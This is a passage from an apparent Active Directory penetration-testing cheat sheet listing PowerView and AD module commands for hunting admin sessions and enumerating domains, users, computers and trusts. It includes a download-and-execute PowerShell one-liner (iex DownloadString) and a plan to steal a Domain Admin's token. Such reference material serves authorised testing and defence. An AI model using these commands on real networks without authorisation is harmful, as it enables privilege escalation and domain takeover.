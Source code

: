 - **User Hunting:**

  ```powershell
  #Finds all machines on the current domain where the current user has local admin access
  Find-LocalAdminAccess -Verbose

  #Find local admins on all machines of the domain
  Find-DomainLocalGroupMember -Verbose

  #Find computers were a Domain Admin OR a specified user has a session
  Find-DomainUserLocation | Select-Object UserName, SessionFromName

  #Confirming admin access
  Test-AdminAccess
  ```

  :heavy_exclamation_mark: **Priv Esc to Domain Admin with User Hunting:** \
  I have local admin access on a machine -> A Domain Admin has a session on that machine -> I steal his token and impersonate him -> Profit!

### Using AD Module

- **Importing AD Module**
```
PS C:\> iex (new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory
```

- **Get Current Domain:** `Get-ADDomain`
- **Enum Other Domains:** `Get-ADDomain -Identity <Domain>`
- **Get Domain SID:** `Get-DomainSID`
- **Get Domain Controlers:**

  ```powershell
  Get-ADDomainController
  Get-ADDomainController -Identity <DomainName>
  ```

- **Enumerate Domain Users:**

  ```powershell
  Get-ADUser -Filter * -Identity <user> -Properties *

  #Get a specific "string" on a user's attribute
  Get-ADUser -Filter 'Description -like "*wtver*"' -Properties Description | select Name, Description
  ```

- **Enum Domain Computers:**
  ```powershell
  Get-ADComputer -Filter * -Properties *
  Get-ADGroup -Filter *
  ```
- **Enum Domain Trust:**
  ```powershell
  Get-ADTrust -Filter *
  Get-ADTrust -Identity <DomainName>
  ```
- **Enum Forest Trust:**
